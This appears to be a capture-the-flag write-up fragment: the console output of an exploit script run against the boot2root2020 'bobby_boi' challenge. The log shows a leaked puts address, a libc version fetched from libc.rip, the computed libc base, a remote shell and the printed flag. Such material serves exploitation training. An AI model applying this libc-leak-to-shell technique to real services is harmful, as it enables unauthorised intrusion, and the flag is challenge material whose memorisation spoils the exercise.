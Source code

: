# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/bobby_boi/bobby_boi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './bobby_boi'
[*] puts: 0x7fefaaaee6a0
[*] libc_url: https://libc.rip/download/libc6_2.23-0ubuntu11.2_amd64.so
[*] getting: https://libc.rip/download/libc6_2.23-0ubuntu11.2_amd64.so
[*] '/pwd/datajerk/boot2root2020/bobby_boi/libc6_2.23-0ubuntu11.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7fefaaa7f000
[*] Switching to interactive mode
$ cat flag
b00t2root{y3Ah_Ye4h_b0bbY_b0y_H3_B3_f33l1n_H1m5elf_SG9taWNpZGU=}

